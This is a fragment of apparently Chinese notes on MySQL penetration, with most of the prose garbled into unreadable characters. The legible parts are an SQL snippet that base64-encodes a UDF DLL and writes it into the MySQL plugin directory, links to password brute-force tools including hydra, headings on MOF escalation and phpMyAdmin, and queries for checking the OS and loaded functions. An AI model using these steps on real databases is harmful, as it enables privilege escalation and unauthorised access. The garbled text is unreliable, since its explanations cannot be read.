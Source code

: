 ```
# ת��Ϊbase64
select to_base64(load_file('D:\\udf.dll'));

# base64����ΪDLL
select from_base64("Base64����") into dumpfile "D:\\phpStudy\\MySQL\\lib\\plugin\\udf.dll"��
```


## 4��Mysql������

### 4.1 �����ƽ����

- ���ߣ�hydra 

- CPP

������ʵ�ֵ�MYSQL��MSSQL��oracle���뱩��C����

http://blog.51cto.com/foxhack/35604

- Python

https://github.com/chinasun021/pwd_crack/blob/master/mysql/mysql_crack.py

https://www.waitalone.cn/python-mysql-mult.html

- Go

https://github.com/netxfly/x-crack

### 4.2 MySQL������ܽ���

## 5��WEB�������

### 5.1 ���ŷ���

����Mof

### 5.2 WEB��͸������չ

php̽�롢PHPMyadmin

## 6��ȡ֤����

```
// �鿴ϵͳ��Ϣ
select @@version_compile_os,@@version_compile_machine,@@plugin_dir;

// �鿴���صĺ���
select * from mysql.func;
```

## 7���ο�
